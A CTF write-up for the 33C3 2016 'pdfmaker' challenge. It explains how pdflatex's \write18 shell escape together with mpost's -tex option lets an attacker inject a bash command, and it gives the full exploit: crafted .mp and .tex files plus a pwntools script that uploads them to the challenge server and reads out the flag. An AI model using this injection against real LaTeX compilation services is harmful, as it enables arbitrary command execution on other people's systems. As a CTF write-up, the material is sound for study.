 ```yaml
---
title: '33C3 CTF 2016 -- pdfmaker'
date: 2016-12-29 21:05
tags:
  - 33C3
  - CTF
  - Python
  - pdflatext
  - Misc
categories:
  - write-ups
author: bruce30262
---
```

**Category:** Misc
**Points:** 75

>Just a tiny [application](https://gist.github.com/bruce30262/80b089e24d3a34862fe78892c63d8dcf), that lets the user write some files and compile them with pdflatex. 
>What can possibly go wrong?
>nc 78.46.224.91 24242

<!-- more -->  

So this is a service that allow us to create, show & compile some files.
* `create`: Create a file. Valid file format are: `.log`, `.tex`, `.mb`, `.sty` & `.bib`
* `show`: Show the file content.
* `compile`: Compile a file with the `pdflatex` command.

We started by googling the key word **"pdflatex exploit"**, then teammate **mike** found a useful link: [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)

Basically we just need to follow the method mentioned in the post:
1. Create a `.mp` file
2. Create a `.tex` file with the malicious content. Here we change the command to `(cat${IFS}$(ls|grep${IFS}33C3))>qqq.log`, which will later store the flag content into `qqq.log`
3. Compile the `.tex` file. This will cause `pdflatext` execute our command
4. Show the `qqq.log` file and get the flag

Here's our final exploit:

```txt sss.mp
verbatimtex
\documentclass{minimal}\begin{document}
etex beginfig (1) label(btex blah etex, origin);
endfig; \end{document} bye
```

```txt aaa.tex
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (cat${IFS}$(ls|grep${IFS}33C3))>qqq.log" "sss.mp"}
\end{document}
```

```python exp.py
from pwn import *

r = remote("78.46.224.91", 24242)

log.info("creating sss.mp...")
r.sendlineafter(">", "create mp sss")
r.recvline()
f = open("sss.mp", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

log.info("creating aaa.tex...")
r.sendlineafter(">", "create tex aaa")
r.recvline()
f = open("aaa.tex", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

r.sendlineafter(">", "compile aaa")
r.sendlineafter(">", "show log qqq")

r.interactive()
```

**Don't take LaTEX files from strangers!!**

flag: `33C3_pdflatex_1s_t0t4lly_s3cur3!`

